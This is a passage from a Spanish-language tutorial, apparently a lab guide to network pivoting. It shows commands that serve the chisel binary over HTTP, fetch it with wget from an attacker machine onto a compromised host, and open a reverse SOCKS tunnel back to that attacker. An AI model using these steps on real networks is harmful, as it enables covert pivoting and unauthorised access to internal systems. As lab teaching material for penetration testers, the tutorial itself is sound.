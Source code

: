 Podemos copiar el binario de `chisel` en nuestra máquina y compartirlo en nuestra red, de forma que lo descargaremos en `10.10.10.2`

~~~ bash
cp $(which chisel) .
~~~

Ahora con `python3` compartimos el binario en el directorio actual

~~~ bash
python3 -m http.server 8000
~~~

![Pasted image 20241007233503](https://github.com/user-attachments/assets/7c1bb8ed-8ccd-4e62-993c-b3b1e3b164f8)

Nos descargamos `chisel` desde la máquina `10.10.10.2`

~~~ bash
wget http://10.10.10.1:8000/chisel
~~~

![chisel_1_wget](https://github.com/user-attachments/assets/e7001cc3-283d-4d95-8090-8162b5242fbc)

![python_server_chisel](https://github.com/user-attachments/assets/908ad28a-4458-46fb-9b9d-2f53dc50c0fe)

Una vez descargamos `chisel` en `10.10.10.2`, para poder usar esta herramienta primeramente le damos permisos de ejecución

~~~ bash
chmod +x chisel
~~~ 

![Pasted image 20241007233630](https://github.com/user-attachments/assets/6bd73a48-c700-4baa-967f-e9f76fe3dd5c)

### Servidor

Antes de usarla debemos estar en escucha con nuestra máquina atacante por algún puerto con `chisel`, en mi caso, usaremos el puerto **8000**

![chisel_server_setup](https://github.com/user-attachments/assets/6223b4a6-15cc-456a-87e2-6d7a7756ee2f)

### Cliente

Y ahora nos conectamos desde `10.10.10.2` a nuestro servidor por el puerto `8000`

~~~ bash
./chisel client 10.10.10.1:8000 R:socks
~~~

- `R:socks`: Definir un túnel inverso, en este caso usando el protocolo SOCKS, todas las conexiones desde el servidor llegarán a este cliente, permitiendo que podamos acceder a los recursos de esta máquina

![chisel_client_10 10 10 2_connect](https://github.com/user-attachments/assets/6b038fb0-5cfc-4917-91ed-c6fc267c5cc4)

Hemos establecido el proxy, deberíamos ver que se abre un puerto en nuestra máquina atacante, en mi caso es el `1080`
